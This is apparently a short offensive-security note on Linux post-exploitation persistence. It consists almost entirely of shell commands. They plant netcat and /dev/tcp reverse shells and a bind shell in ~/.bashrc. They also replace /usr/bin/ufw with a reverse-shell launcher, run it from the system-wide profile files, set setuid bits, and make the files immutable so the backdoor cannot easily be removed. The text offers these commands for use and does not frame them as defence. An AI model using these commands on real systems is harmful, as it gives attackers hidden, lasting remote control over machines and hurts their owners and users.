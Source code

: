 # Living off the Land

## 01 - User Profile

- Reverse Shell

```
$ echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" >> ~/.bashrc

$ echo "/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 &" >> ~/.bashrc
```

Even when the user logs out the shell will still be running.

```
$ echo "nohup <commands> &" >> ~/.bashrc
```

- Bind Shell

```
$ echo "nc -e /bin/bash -lnvp 8080 &" >> ~/.bashrc
```

## 02 - Global System Profile

- Reverse Shell

```
$ sudo mv /usr/bin/ufw /tmp/ufw.bak

$ sudo echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" > /usr/bin/ufw

$ sudo echo "/usr/bin/ufw &" >> /etc/profile

$ sudo echo "/usr/bin/ufw &" >> /etc/skel/.profile

$ sudo chmod +sss /usr/bin/ufw

$ chattr +i /etc/skel/.profile /etc/profile /usr/bin/ufw
```

---
## References

- [[Linux Post Exploitation Persistence References]]